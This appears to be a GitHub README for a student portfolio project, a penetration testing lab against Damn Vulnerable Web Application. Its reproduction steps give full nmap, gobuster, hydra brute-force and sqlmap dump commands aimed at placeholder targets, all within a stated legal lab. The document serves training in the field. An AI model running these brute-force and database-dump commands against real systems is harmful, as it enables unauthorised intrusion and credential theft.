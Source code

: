 DVWA Penetration Testing Lab

A hands-on penetration testing project built to simulate a real-world attack/defense environment using Damn Vulnerable Web Application (DVWA).
Configured and executed on a controlled lab network to practice ethical hacking techniques and demonstrate practical cybersecurity skills.


🎯 Objective


	•	Build a contained penetration testing lab to practice ethical hacking techniques.
	•	Simulate a full attack lifecycle from reconnaissance to exploitation and  post-exploitation.
	•	Demonstrate proficiency with industry-standard tools and document results professionally

🔧 Features
	•	Reconnaissance
	•	Nmap scan for open ports and service enumeration
	•	Gobuster directory brute-forcing
	•	Exploitation
	•	Hydra brute-force attack on DVWA login
	•	Manual and automated SQL Injection (SQLMap)
	•	Post-Exploitation
	•	Extracting DVWA database user credentials
	•	Saving and documenting exploitation results
	•	Documentation
	•	Sanitized DVWA configuration file
	•	Step-by-step attack methodology
	•	Screenshots for every major phase

----

📂 Repository Structure

dvwa-penetration-testing-lab
├── attack-scripts       # Output logs from tools
│   ├── gobuster_scan.txt
│   ├── hydra_bruteforce.txt
│   ├── nmap_scan.txt
│   └── sqlmap_dump.txt
├── configs              # Sanitized config files
│   └── dvwa-config.sample.php
├── docs                 # Attack methodology & notes
│   └── attack-steps.md
├── screenshots          # Evidence (IPs blurred)
└── README.md

----
🧪 How to Reproduce

1.	Set up DVWA
	•	Deploy DVWA on Parrot/Kali or any Debian-based VM
	•	Configure database credentials in dvwa-config.php

2.	Recon

nmap -sV <target-ip> -oN attack-scripts/nmap_scan.txt
gobuster dir -u http://<target-ip>/ -w /path/to/wordlist -o attack-scripts/gobuster_scan.txt

---

3. Brute Force

hydra -l admin -P /path/to/wordlist http://<target-ip>/dvwa/login.php -V -o attack-scripts/hydra_bruteforce.txt

---

4. SQL Injection

sqlmap -u "http://<target-ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session-id>; security=low" \
  --batch --level=5 --risk=3 --dump -o attack-scripts/sqlmap_dump.txt
---

5. Evidence Collection

	•	Save all tool outputs in attack-scripts/.
	•	Capture relevant screenshots with IPs sanitized.
	•	Write up findings in docs/attack-steps.md.

---
📌 Use Case

This project simulates real-world penetration testing methodology for learning and portfolio building.
It covers all key phases — Reconnaissance, Exploitation, and Post-Exploitation — in a safe, legal lab.

---

🖥️ Requirements

	•	DVWA installed on a Debian-based environment
	•	Kali/Parrot OS with:
	•	Nmap
	•	Gobuster
	•	Hydra
	•	SQLMap

---

📄 License

MIT License – free to use, share, and modify with attribution.

---

👤 Author

*Amir Nejad*
https://www.linkedin.com/in/amir-nejad98 * https://github.com/Amirnejad35


